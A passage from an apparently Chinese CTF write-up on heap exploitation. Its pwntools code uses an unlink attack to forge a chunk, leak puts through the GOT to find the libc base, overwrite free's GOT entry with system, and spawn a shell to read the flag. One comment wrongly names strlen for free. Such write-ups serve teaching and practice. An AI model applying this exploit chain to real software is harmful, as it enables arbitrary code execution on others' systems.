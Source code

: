    ```python
   
   free(0)
   add(0,payload0)     #4 溢出修改chunk1伪造unlink，申请到先前释放dechunk0
   #触发unlink
   free(2)
   ```

   ![image-20240718170849409](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181708564.png)

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181711450.png)

2. 利用unlink，创造傀儡chunk2，通过chunk1控制傀儡chunk2：

   ```python
   #利用unlink，创造傀儡chunk2，通过chunk1控制傀儡
   new_addr = 0x602130
   payload2 = b"a"*8*3 + p64(new_addr)	#这里必须用b"a"填充，用p64(0)会输入不进去
   edit(1,payload2)
   ```

   ![image-20240718193308521](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181933759.png)

3. 往傀儡中写入**puts函数的got表地址**，输出泄漏**puts函数地址**，进而**泄漏libc基地址**：

   ```python
   #利用傀儡，泄漏puts函数的got表，泄漏libc基地址
   payload2 = p64(elf.got["puts"])     #写入puts函数的got表
   edit(1,payload2)
   show(2)     #输出puts函数got表的内容
   
   #获取libc基地址
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = puts_addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   success("system_addr==>"+hex(sys_addr))
   ```

   ![image-20240718193255412](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181932703.png)

4. 继续利用傀儡，hook掉free函数的got表，改为system函数地址：

   ```python
   payload2 = p64(elf.got["free"])     #写入strlen函数的got表
   edit(1,payload2)
   
   payload4 = p64(sys_addr)       #修改free函数的got表
   edit(2,payload4)
   
   #现在只有chunk3能使用（也是chunk0），前面已经向chunk0写入b"/bin/sh\x00"
   free(3)
   p.sendline(b"cat flag")
   p.interactive()
   ```
